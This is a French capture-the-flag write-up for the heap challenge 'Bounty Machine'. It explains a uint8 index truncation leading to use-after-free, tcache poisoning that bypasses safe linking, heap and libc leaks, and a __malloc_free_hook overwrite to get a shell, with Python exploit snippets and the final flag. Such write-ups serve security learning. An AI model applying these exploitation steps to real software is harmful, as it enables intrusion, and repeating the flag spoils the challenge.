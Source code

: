 # Writeup pour `Bounty Machine`

Auteur : *Pwnsard*  
Difficulté : *Moyen*

### Notions principales :
- Use after free
- Tcache poisoning
- Safe linking

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   89 Symbols	  No	0		3		data/chall
```

On utilise une libc 2.32, donc il faut également éviter le safe linking...

### Principe

Il s'agit d'un chall de heap assez classique. La faille réside dans le fait que la fonction edit_bounty
```C
edit_bounty(uint8_t i)
```
prend en paramètre un uint8, alors qu'on lui passe un int en argument ici :
```C
res = scanf("%d", &idx);
if (idx < nbounties) {
    edit_bounty(idx);
} else {
    puts("This bounty doesn't exist");
}
```
On peut donc exploiter un use after free grâce à un underflow/overflow sur idx pour faire un tcache poisoning : accéder au bounty -256 est comme accéder au bounty 0.

Pour éviter le safe linking de la libc 2.32, on leak d'abord l'adresse de la heap grâce à un premier chunk.

```python
# Leaking the heap base address
print("[*] Leaking heap address")
add_bounty(100, b"HRTC", b"C" * 0x40)
add_bounty(100, b"HRTC", b"D" * 0x40)
free_bounty()
leak = edit_bounty(-255)
amount_leak = int(leak.split(b" ")[11])
leak_pos = u64(leak.split(b'\n')[2] +  b"\x00\x00\x00")
heap_addr = leak_pos << 12
print(f"heap@{hex(heap_addr)}")
apply_edit(amount_leak, p64(leak_pos) + b"E" * 0x38)
free_bounty()
```

Maintenant on récupère un arbitrary read/write. On peut avoir une adresse de la libc dans la heap avec la méthode classique d'allouer un chunk de grande taille (ici 0x4b0) avec malloc. Par contre cette adresse de la libc se finissant par un nullbyte, on ne peut pas la lire directement en créant un faux chunk. On falsifie donc la liste des bounty pour que le pointeur `bounties[0]->name` pointe juste après le null byte (d'où le +1 dans `libc_addr = heap_addr + 0x400 + 1`)

```python
# Putting a libc pointer somewhere on the stack
print("[*] Setting up a libc leak")
add_bounty(100, b"HRTC", b"A" * 0x4b0)
add_bounty(100, b"HRTC", b"B" * 0x4b0)
free_bounty()
free_bounty()

...

# Now creating a fake chunk to leak libc
print("[*] Leaking libc")
bounties_array_addr = heap_addr + 0x2a0
libc_addr = heap_addr + 0x400 + 1
print(f"bounties_array@{hex(bounties_array_addr)}")
print(f"libc_leak@{hex(libc_addr)}")
print(f"libc_leak@{hex(bounties_array_addr ^ leak_pos)}")
add_bounty(100, b"HRTC", b"F" * 0x30)
add_bounty(100, b"HRTC", b"G" * 0x30)
free_bounty()
free_bounty()
leak =  edit_bounty(-256)
amount_leak = int(leak.split(b" ")[11])
apply_edit(amount_leak, p64((bounties_array_addr - 0x20) ^ leak_pos) + b"H" * 0x28)
```

Une fois l'adresse de la libc connue, on réutilise un dernier tcache poisoning pour réécrire l'adresse de `__malloc_free_hook` par celle de `system`. Maintenant lorsque l'on appelle free, on appelle également system.

```C
add_bounty(100, b"HRTC", b"N" * 0x60 + p64(libc.symbols["system"]))

add_bounty(100, b"/bin/sh\x00", b"O" * 0x70)
```

Il ne reste plus qu'à "Claim the latest bounty" en entrant 4, pour être récompensé avec `Congratulations for your catch of /bin/sh !` et obtenir un shell.

Pour résumer :   
underflow > use after free > leak heap et safe linking bypass > tcache poisoning > leak libc > réécriture de __malloc_free_hook > free /bin/sh

Et on obtient un shell !

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{yOU're_G0nnA_CARry_THa7_weIGH7}`